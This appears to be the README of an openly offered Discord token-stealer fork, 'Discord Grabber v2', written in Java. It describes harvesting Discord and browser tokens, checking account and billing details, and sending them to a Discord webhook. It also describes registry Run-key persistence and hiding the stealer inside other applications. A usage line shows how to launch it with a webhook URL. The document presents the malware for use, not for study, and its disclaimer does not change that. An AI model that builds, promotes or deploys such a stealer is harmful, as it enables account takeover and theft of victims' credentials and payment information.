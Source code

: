 # Discord Grabber v2

Discord Grabber v2 is the second version of a discord token logger, improvements from the previous version are:

- Checks whether or not the token is valid
- Provides information regarding the account
- Has a minimum amount of persistence (namely moving itself to %APPDATA% and placing itself in the Run directory of the registry
- Has embed and raw text
- Checks for tokens in multiple locations

## Why should I use this fork?
This fork does not ```not``` uses a ```.txt``` file for configuration.
You should configure it directly in the ```Main.java```.
It's easier to hide it in your application.
Remember: ```I am *not* responsible for your actions!```

## Features
Current features include:

- Send information via discord webhook (Embed)
- Checks for Discord (Canary, PTB) tokens, Google Chrome, Brave Browser, Yandex Browser and Opera Browser
- Checks whether the token(s) is valid before sending it to avoid disabled tokens flooding the webhook
- Persists in registry (Run, RunOnce, RunServices, RunServicesOnce)
- Copies itself into %APPDATA% every time it runs (under a random UUID)
- No need for dependencies
- Check whether or not discord account has nitro
- Check the billing information (if nitro is present)

## WIP
- Suggest ideas


## Usage

The idea is to edit the source code yourself, edit the settings, and add the webhook. The release version  can be used but the settings can not be changed, and the webhook has to be passed as the first and only argument

```Double-click it | or type in your terminal/cmd: java -jar <filename>.jar https://discord.com/api/webhooks/id/token```

See original Xefer-0 Youtube video: https://youtu.be/ZC9lHFn2ekU
## Contributing
You may do with this code whatever you want, I would appreciate suggestions or if you tell me what you change, but it is not needed.

## Disclaimer
I am in no way responsible for what you do using my program/code.

## Example
### Embed mode
![Example output](https://raw.githubusercontent.com/Xefer-0/DiscordGrabber/master/ss.png)
### Text mode
![Example output](https://raw.githubusercontent.com/Xefer-0/DiscordGrabber/master/ss2.png)
